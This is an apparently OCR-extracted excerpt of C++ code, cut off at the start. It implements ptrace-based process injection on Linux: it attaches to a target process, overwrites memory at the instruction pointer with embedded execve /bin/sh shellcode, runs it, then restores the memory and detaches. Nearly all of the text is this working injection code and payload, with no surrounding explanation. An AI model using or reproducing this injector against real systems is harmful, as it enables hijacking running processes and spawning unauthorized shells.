 ```cpp
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
  return 0;
}
```

